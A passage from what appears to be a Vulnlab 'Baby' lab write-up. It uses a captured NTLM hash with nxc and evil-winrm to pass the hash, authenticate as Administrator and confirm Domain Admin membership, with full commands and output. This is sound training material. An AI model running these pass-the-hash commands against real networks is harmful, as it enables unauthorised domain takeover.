 ```
baby.vl\Caroline.Robinson:1115:aad3b435b51404eeaad3b435b51404ee:5fa67a134024d41bb4ff8bfd7da5e2b5::
```

---

## Pass-The-Hash

Instead of cracking the hash, we can use it directly to authenticate with Pass-the-Hash:

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ nxc smb 10.10.118.21 -u 'Administrator' -H 'ee4457ae59f1e3fbd764e33d9cef123d'
```

```
SMB         10.10.118.21    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)
SMB         10.10.118.21    445    BABYDC           [+] baby.vl\Administrator:ee4457ae59f1e3fbd764e33d9cef123d (Pwn3d!)
```

(Pwn3d!). Now let's try to connect with WinRM

```bash
┌──(kali㉿kali)-[~/Vulnlab/Baby]
└─$ sudo evil-winrm -u Administrator -H 'ee4457ae59f1e3fbd764e33d9cef123d' -i 10.10.118.21
```

```powershell                    
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
baby\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

We now have full Domain Admin access!

To verify that we truly have Domain Administrator privileges, we can run the following command:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami /groups
```

```
GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ===============================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                      Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
BABY\Group Policy Creator Owners            Group            S-1-5-21-1407081343-4001094062-1444647654-520 Mandatory group, Enabled by default, Enabled group
BABY\Domain Admins                          Group            S-1-5-21-1407081343-4001094062-1444647654-512 Mandatory group, Enabled by default, Enabled group
```